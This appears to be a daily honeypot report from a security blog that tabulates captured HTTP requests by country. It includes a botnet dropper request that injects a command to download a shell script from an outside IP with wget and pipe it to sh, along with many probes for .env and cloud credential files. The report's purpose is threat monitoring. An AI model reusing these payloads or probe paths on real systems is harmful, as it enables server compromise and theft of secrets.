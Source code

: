 ```yaml
---
title: "Report: 2025-08-22 "
date: 2025-08-22
desciption: "Report: 2025-08-22" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-22 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 32 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1050 requests were recorded during the day, originating from 1 different countries, with a peak of 481 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| GB               | Germany            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                               |
|:--------------|:------------------------------------------------------------------------------------------------------|
| 45.156.87.165 | GET /cgi-bin/script?system%20wget%20-qO-%20http%3A%2F%2F74.194.191.52%2Frondo.epn.sh%7Csh%3B HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                    |
|----:|----------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|   8 |                     4 | \x03\x00\x00\x13\x0E\xE0\x00\x00\x00\x00\x00\x01\x00\x08\x00                                                                                                                                                                                                                                                                                               |
| 210 |                     2 | GET /config.env' HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 211 |                     2 | GET /api/.env0.1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 212 |                     2 | GET /78.153/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 213 |                     2 | GET /api/.env0.2 HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 214 |                     2 | GET /185.95/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 215 |                     2 | GET /aws-ses.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 216 |                     2 | GET /aws-sns.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 217 |                     2 | GET /aws/iam.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 218 |                     2 | GET /admin1/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 219 |                     2 | GET /.system-env HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 221 |                     2 | GET /Travis/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 222 |                     2 | GET /api/.env.bk HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 223 |                     2 | GET /auth/.env.1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 224 |                     2 | GET /auth/.env.2 HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 225 |                     2 | GET /api/.env.db HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 226 |                     2 | GET /Videos/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 227 |                     2 | GET /.env_tokens HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 228 |                     2 | GET /.env_themes HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 245 |                     2 | GET /app/.env.db HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 246 |                     2 | GET /.env_server HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 247 |                     2 | GET /env/.env.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 248 |                     2 | GET /nextjs/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 249 |                     2 | GET /dev/.env.db HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 250 |                     2 | GET /dev/.env.bk HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 252 |                     2 | GET /env.testing HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 254 |                     2 | \x03\x00\x00\x13\x0E\xE0\x00\x00\x00\x00\x00\x01\x00\x08\x00\x0F\x00\x00\x00                                                                                                                                                                                                                                                                               |
| 262 |                     1 | GET /info.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                    |
| 264 |                     1 | GET /test.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                    |
| 447 |                     1 | GET /.rbenv-vars HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 483 |                     1 | \x12\x01\x00^\x00\x00\x01\x00\x00\x00$\x00\x06\x01\x00*\x00\x01\x02\x00+\x00\x01\x03\x00,\x00\x04\x04\x000\x00\x01\x05\x001\x00$\x06\x00U\x00\x01\xFF\x04\x07\x0C\xBC\x00\x00\x00\x00\x00\x00\x15\xD0\x00\xAF/\xB5\x0E\xF6\x7F\x00\x00@\xFB7\xA8\x1E\x00\x00\x00\xE0\x81\xDA\x0E\xF6\x7F\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01       |
| 489 |                     1 | \x12\x01\x00^\x00\x00\x01\x00\x00\x00$\x00\x06\x01\x00*\x00\x01\x02\x00+\x00\x01\x03\x00,\x00\x04\x04\x000\x00\x01\x05\x001\x00$\x06\x00U\x00\x01\xFF\x04\x07\x0C\xBC\x00\x00\x00\x00\x00\x00\x15\xD0\x00\xAF/\xB5\x0E\xF6\x7F\x00\x00\x00\xF9\xFE\x86\xDD\x00\x00\x00\xE0\x81\xDA\x0E\xF6\x7F\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   481 | GB                 |
|  1 |                   321 | US                 |
|  2 |                    82 | BG                 |
|  3 |                    65 | DE                 |
|  4 |                    32 | NL                 |
|  5 |                    11 | SC                 |
|  6 |                     7 | CN                 |
|  7 |                     7 | IN                 |
|  8 |                     5 | ZA                 |
|  9 |                     4 | BE                 |
| 10 |                     4 | AE                 |
| 11 |                     3 | RU                 |
| 12 |                     3 | KR                 |
| 13 |                     3 | LT                 |
| 14 |                     2 | SG                 |
| 15 |                     2 | VN                 |
| 16 |                     2 | JP                 |
| 17 |                     2 | HK                 |
| 18 |                     2 | UA                 |
| 19 |                     2 | FR                 |
| 20 |                     2 | BD                 |
| 21 |                     1 | CA                 |
| 22 |                     1 | IR                 |
| 23 |                     1 | ES                 |
| 24 |                     1 | BA                 |
| 25 |                     1 | PA                 |
| 26 |                     1 | PT                 |
| 27 |                     1 | TR                 |
| 28 |                     1 | BR                 |

